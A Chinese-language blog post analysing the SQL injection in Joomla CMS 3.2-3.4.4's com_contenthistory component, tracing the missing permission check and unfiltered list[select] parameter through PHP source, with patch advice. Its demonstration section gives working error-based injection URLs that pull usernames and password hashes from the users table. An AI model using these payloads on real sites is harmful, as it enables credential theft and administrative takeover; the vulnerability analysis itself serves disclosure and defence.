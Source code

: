 ```yaml
---
layout: post
title: "Joomla CMS 3.2-3.4.4 SQL注入 漏洞分析"
tags: [web, security]
---
```


昨日，Joomla CMS发布新版本3.4.5，该版本修复了一个高危的SQL注入漏洞，3.2至3.4.4版本都受到影响。攻击者通过该漏洞可以直接获取获取数据库中敏感信息，甚至可以获取已登陆的管理员会话直接进入网站后台。

### 一、原理分析

在 Joomla CMS 中有一个查看历史编辑版本的组件(com_contenthistory)，该功能本应只有管理员才能访问，但是由于开发人员的疏忽，导致该功能的访问并不需要相应的权限。通过访问 `/index.php?option=com_contenthistory` 可以使得服务端加载历史版本处理组件。程序流程会转到 `/components/com_contenthistory/contenthistory.php` 文件中：

{% highlight php %}
<?php
defined('_JEXEC') or die;

$lang = JFactory::getLanguage();
$lang->load('com_contenthistory', JPATH_ADMINISTRATOR, null, false, true)
||    $lang->load('com_contenthistory', JPATH_SITE, null, false, true);

require_once JPATH_COMPONENT_ADMINISTRATOR . '/contenthistory.php';
{% endhighlight %}

可以看到该组件加载时并没有进行相关权限的监测，而 Joomla 中，一般的后台调用组件 (`/administrator/components/`下的组件) 都会进行组件对应的权限检查，例如后台中的 `com_contact` 组件

{% highlight php %}
if (!JFactory::getUser()->authorise('core.manage', 'com_contact'))
{
    return JError::raiseWarning(404, JText::_('JERROR_ALERTNOAUTHOR'));
}
{% endhighlight %}

但是，程序在处理 `contenthistory` 组建时，并没有进行一个权限检查，程序初始化并设置好组件相关配置后，包含文件 `/administrator/components/com_contenthistory/contenthistory.php`，其内容如下：

{% highlight php %}
<?php
defined('_JEXEC') or die;

$controller = JControllerLegacy::getInstance('Contenthistory', array('base_path' => JPATH_COMPONENT_ADMINISTRATOR));
$controller->execute(JFactory::getApplication()->input->get('task'));
$controller->redirect();
{% endhighlight %}

程序初始化基于 `contenthistory` 组件的控制类 `JControllerLegacy`，然后直接调用控制类的 `execute()` 方法，在 `execute()` 方法中，会调用其控制类中的 `display()`，代码位于 `/libraries/legacy/controller/legacy.php`：

{% highlight php %}
public function display($cachable = false, $urlparams = array())
{
    $document = JFactory::getDocument();
    $viewType = $document->getType();
    $viewName = $this->input->get('view', $this->default_view);
    $viewLayout = $this->input->get('layout', 'default', 'string');

    $view = $this->getView($viewName, $viewType, '', array('base_path' => $this->basePath, 'layout' => $viewLayout));

    // Get/Create the model
    if ($model = $this->getModel($viewName))
    {
        // Push the model into the view (as default)
        $view->setModel($model, true);
    }
    (...省略...)
    if ($cachable && $viewType != 'feed' && $conf->get('caching') >= 1)
    { (...省略...) }
    else
    {
        $view->display();
    }

    return $this;
}
{% endhighlight %}

处理程序从传递的参数中获取 `view` 和 `layout` 的参数值进行初始化视图，并且调用 `$model = $this->getModel($viewName)` 加载对应数据模型，最终会调用 `$view->display()` 函数进行视图处理。

Joomla 新版本 3.4.5 中修复的SQL注入漏洞涉及的是历史查看操作，也就是 `view=history` 时的程序处理会导致注入。在程序进行数据提取时，会进入 `/administrator/components/com_contenthistory/models/history.php` 文件中的 `getListQuery()` 函数：

{% highlight php %}
protected function getListQuery()
{
	// Create a new query object.
	$db = $this->getDbo();
	$query = $db->getQuery(true);

	// Select the required fields from the table.
	$query->select(
		$this->getState(
			'list.select',
			'h.version_id, h.ucm_item_id, h.ucm_type_id, h.version_note, h.save_date, h.editor_user_id,' .
			'h.character_count, h.sha1_hash, h.version_data, h.keep_forever'
		)
	)
	->from($db->quoteName('#__ucm_history') . ' AS h')
	->where($db->quoteName('h.ucm_item_id') . ' = ' . $this->getState('item_id'))
	->where($db->quoteName('h.ucm_type_id') . ' = ' . $this->getState('type_id'))

	// Join over the users for the editor
	->select('uc.name AS editor')
	->join('LEFT', '#__users AS uc ON uc.id = h.editor_user_id');

	// Add the list ordering clause.
	$orderCol = $this->state->get('list.ordering');
	$orderDirn = $this->state->get('list.direction');
	$query->order($db->quoteName($orderCol) . $orderDirn);

	return $query;
}
{% endhighlight %}

注意下面这段SQL语句构造部分：

{% highlight php %}
	$query->select(
		$this->getState(
			'list.select',
			'h.version_id, h.ucm_item_id, h.ucm_type_id, h.version_note, h.save_date, h.editor_user_id,' .
			'h.character_count, h.sha1_hash, h.version_data, h.keep_forever'
		)
	)
	->from($db->quoteName('#__ucm_history') . ' AS h')
	->where($db->quoteName('h.ucm_item_id') . ' = ' . $this->getState('item_id'))
	->where($db->quoteName('h.ucm_type_id') . ' = ' . $this->getState('type_id'))
{% endhighlight %}

其中 `getState()` 函数用于获取模型的属性和其对应的值，其函数定义位于 `/ibraries/legacy/model/legacy.php`：

{% highlight php %}
public function getState($property = null, $default = null)
{
	if (!$this->__state_set)
	{
		// Protected method to auto-populate the model state.
		$this->populateState();

		// Set the model state set flag to true.
		$this->__state_set = true;
	}

	return $property === null ? $this->state : $this->state->get($property, $default);
}
{% endhighlight %}

然后会调用 `populateState()` 函数来初始化参数值和提取并过滤某些参数，在 `contenthistory` 组建中定义有自己的 `populateState()` 函数：

{% highlight php %}
protected function populateState($ordering = null, $direction = null)
{
	(...省略...)
	// List state information.
	parent::populateState('h.save_date', 'DESC');
}
{% endhighlight %}

函数最后，会调用父类的 `populateState()` 函数，因为该数据模型继承于 JModelList，所以父类相关代码位于 `/libraries/legacy/model/list.php` 中，而在父类该函数的处理中会解析请求中传递的 `list[]` 参数，解析并过滤预设键的值，但是却忽略了 `list[select]`：

{% highlight php %}
protected function populateState($ordering = null, $direction = null)
{
	(...省略...)
		// Receive & set list options
		if ($list = $app->getUserStateFromRequest($this->context . '.list', 'list', array(), 'array'))
		{
			foreach ($list as $name => $value)
			{
				// Extra validations
				switch ($name)
				{
					case 'fullordering':
						(...省略...)
					case 'ordering':
						(...省略...)
					case 'direction':
						(...省略...)
					case 'limit':
						(...省略...)
					default:
						$value = $value;
						break;
				}

				$this->setState('list.' . $name, $value);
			}
		}
	(...省略...)
{% endhighlight %}

而传递 `list[select]` 参数值最终会被解析到上述组件视图进行处理时 SQL 语句构建中的 `list.select` 里，从而导致了注入。

### 二、漏洞演示

通过上面简单的分析，已经知道了受影响的 Joomla 版本中，`contenthistory` 组件访问不受权限的控制，并且当进行 `view=history` 请求时会解析请求参数中 `list[select]` 的值拼接到 SQL 语句中。下面是该漏洞的简单验证和利用方法。

*1.漏洞验证*

    http://http://172.16.96.130/xampp/Joomla-3.4.4/index.php?option=com_contenthistory&view=history&list[select]=1

因为在进行 SQL 语句拼接的时候，获取了 `list.ordering` 进行数据查询中的 `order` 操作，若不提供默认会将其设置为数据进行处理，相关处理位于 `/libraries/joomla/database/driver.php` 的 quoteName() 函数中。

因此，访问上述构造的URL，服务器会报错：

![]({{ site.url }}/public/img/article/2015-10-23-joomla_cms_contenthistory_sql_injection_vulnerability/1.png)

*2.漏洞利用*

因为在 SQL 语句拼接时，程序框架针对每个 `from` 或者 `where` 操作进行了换行处理，所以这里并不能使用 `#`、`--` 等符号来注释掉后面的语句，只能通过报错注入进行数据提取。但是语句的成功执行有一定的前提条件，也就是传递的 `item_id` 和 `type_id` 参数值必须于数据库中有效，同时传递 `list[ordering]` 参数 (空值即可)，这样注入的语句才能够得到执行，从而进行报错注入。

这里经过多个漏洞站点的测试可以简单的使用 `item_id=1&type_id=1`，当然了为了准确性和有效性，可以通过爆破的方式来得到这两个参数的有效值，然后再进行注入操作。

(Tips：Joomla 中构造的 SQL 语句中 `#_` 最终会在执行前被替换为表前缀)

下面是获取用户名/密码哈希的漏洞演示过程：

    http://http://172.16.96.130/xampp/Joomla-3.4.4/index.php?option=com_contenthistory&view=history&item_id=1&type_id=1&list[ordering]&list[select]=(select 1 from (select count(*),concat((select username from %23__users limit 0,1),floor(rand(0)*2)) from information_schema.tables group by 2)x)
    
![]({{ site.url }}/public/img/article/2015-10-23-joomla_cms_contenthistory_sql_injection_vulnerability/2.png)

    http://172.16.96.130/xampp/Joomla-3.4.4/index.php?option=com_contenthistory&view=history&item_id=1&type_id=1&list[ordering]&list[select]=(select 1 from (select count(*),concat((select password from %23__users limit 0,1),floor(rand(0)*2)) from information_schema.tables group by 2)x)
    
![]({{ site.url }}/public/img/article/2015-10-23-joomla_cms_contenthistory_sql_injection_vulnerability/3.png)

### 三、修复方案

1. 从 [https://github.com/joomla/joomla-cms/releases](https://github.com/joomla/joomla-cms/releases) 获取最新版本进行重新安装；
2. 从 [https://github.com/joomla/joomla-cms/releases](https://github.com/joomla/joomla-cms/releases) 下载相应版本的补丁程序进行升级；

### 四、总结

就 Joomla CMS 的用户量来看，目前还有大量的站点的数据正受到该漏洞的威胁。该漏洞的产生本质上是由于访问控制的缺失和过滤不严格造成。访问控制的缺失导致本应只有管理员才能进行访问和加载的 `contenthistory` 组件能够被任意用户访问和加载，而参数的过滤不严格，导致攻击者能够构造出恶意的参数到执行流中产生注入。

### 参考

* [http://www.sebug.net/vuldb/ssvid-89680](http://www.sebug.net/vuldb/ssvid-89680)
* [https://blog.sucuri.net/2015/10/joomla-3-4-5-released-fixing-a-serious-sql-injection-vulnerability.html](https://blog.sucuri.net/2015/10/joomla-3-4-5-released-fixing-a-serious-sql-injection-vulnerability.html)
* [https://www.trustwave.com/Resources/SpiderLabs-Blog/Joomla-SQL-Injection-Vulnerability-Exploit-Results-in-Full-Administrative-Access/](https://www.trustwave.com/Resources/SpiderLabs-Blog/Joomla-SQL-Injection-Vulnerability-Exploit-Results-in-Full-Administrative-Access/)
